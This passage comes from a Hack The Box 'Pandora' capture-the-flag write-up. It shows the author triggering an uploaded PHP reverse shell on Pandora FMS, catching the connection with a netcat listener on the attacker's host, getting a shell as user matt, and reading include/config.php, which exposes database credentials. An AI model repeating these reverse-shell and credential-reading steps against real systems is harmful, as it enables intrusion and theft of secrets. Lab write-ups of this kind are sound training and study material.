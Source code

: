 After setting up a listener, I opened the PHP file.
However, it's not directly loaded, but instead download the file.

I inspected the link URL.

```bash
http://pandora.panda.htb:8888/pandora_console/include/get_file.php?file=L3BhbmRvcmFfY29uc29sZS9pbWFnZXMvcnNoZWxsXzkwMDEucGhw&hash=148c8994660bbdfdab0b4b2ff6f0aab9

======

┌──(kali㉿kali)-[~/htb/pandora]
└─$ echo -n 'L3BhbmRvcmFfY29uc29sZS9pbWFnZXMvcnNoZWxsXzkwMDEucGhw&hash=148c8994660bbdfdab0b4b2ff6f0aab9' | base64 -d
/pandora_console/images/rshell_9001.php
```

I think I can access to the upload file through the decoded path.

```bash
┌──(kali㉿kali)-[~/htb/pandora]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.136] 59108
Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 14:42:56 up  5:56,  2 users,  load average: 0.01, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
daniel   pts/0    10.10.14.7       10:24    1:12m  0.13s  0.13s -bash
daniel   pts/1    10.10.14.7       11:50    2:52m  0.02s  0.02s -bash
uid=1000(matt) gid=1000(matt) groups=1000(matt)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
matt
```

I can get `matt`'s shell!



# Shell as `root`

### Enumeration

As suggested on the previous reference post, I checked `/include/config.php` to find DB credential.

```php
$ cat include/config.php
<?php
// File generated by centos kickstart
$config["dbtype"] = "mysql";
$config["dbname"]="pandora";
$config["dbuser"]="pandora";
$config["dbpass"]="PandoraFMSSecurePass2021";
$config["dbhost"]="localhost";
$config["homedir"]="/var/www/pandora/pandora_console";
$config["homeurl"]="/pandora_console";
error_reporting(0); 
$ownDir = dirname(__FILE__) . '/';
include ($ownDir . "config_process.php");
?>
```
